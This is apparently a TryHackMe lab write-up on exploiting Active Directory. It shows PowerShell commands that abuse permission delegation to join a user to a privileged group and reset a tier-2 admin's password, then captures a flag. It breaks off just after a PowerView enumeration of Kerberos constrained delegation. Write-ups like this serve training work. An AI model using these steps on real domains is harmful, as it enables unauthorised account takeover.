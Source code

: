 ## Exploiting Active Directory

### Exploiting Permission Delegation 

``` Your credentials have been generated: Username: laura.wood Password: C6j4BhcW ```


Bloodhound shows misconfiguration in AD allowing Domain Users to add themselves to IT Support, which in turn delegates permission to reset a t2 admin password

![bloodhound](/TryHackMe/Exploiting%20AD%20Task%202.png)

```posh
#Add our user to IT Support
Add-ADGroupMember "IT Support" -Members "laura.wood"
```

```posh
#Verify user has been successfully added
Get-ADGroupMember -Identity "IT Support" 
```

Run ``` gpupdate /force ```  then reconnect to the remote session to ensure permissions propogate

```posh
#Reset password for a user in 
$Password = ConvertTo-SecureString "Password1" -AsPlainText -Force
Set-ADAccountPassword -Identity "t2_caroline.dawson" -Reset -NewPassword $Password
```

RDP from AttackBox to locate the flag

``` THM{Permission.Delegation.FTW!} ```

### Exploiting Kerberos Delegation

```console
PS C:\Users\laura.wood> Import-Module C:\Tools\PowerView.ps1 
PS C:\Users\laura.wood> Get-NetUser -TrustedToAuth | select name, msds-allowedtodelegateto 

name       msds-allowedtodelegateto
----       ------------------------
IIS Server {WSMAN/THMSERVER1.za.tryhackme.loc, WSMAN/THMSERVER1, http/THMSERVER1.za.tryhackme.loc, http/THMSERVER1} 
```
